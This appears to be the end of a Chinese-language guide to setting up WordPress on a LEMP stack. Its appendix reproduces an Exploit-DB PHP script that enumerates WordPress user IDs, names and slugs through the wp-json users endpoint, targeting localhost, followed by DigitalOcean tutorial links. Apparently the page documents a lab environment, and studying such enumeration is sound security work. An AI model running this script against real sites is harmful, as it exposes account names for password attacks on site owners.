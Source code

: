     ![wp_mysql_url](img/wp_mysql_url.png)

## 附录

[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

```bash
#!usr/bin/php
<?php
 
#Author: Mateus a.k.a Dctor
#fb: fb.com/hatbashbr/
#E-mail: dctoralves@protonmail.ch
#Site: https://mateuslino.tk 
header ('Content-type: text/html; charset=UTF-8');
 
 
$url= "http://localhost/";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}
```

## 参考
[How To Install Linux, Nginx, MySQL, PHP (LEMP stack) on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-nginx-mysql-php-lemp-stack-ubuntu-18-04)

[How To Install WordPress with LEMP on Ubuntu 18.04](<https://www.digitalocean.com/community/tutorials/how-to-install-wordpress-with-lemp-on-ubuntu-18-04>)

[How To Create a Self-Signed SSL Certificate for Nginx in Ubuntu 18.04](<https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-nginx-in-ubuntu-18-04>)
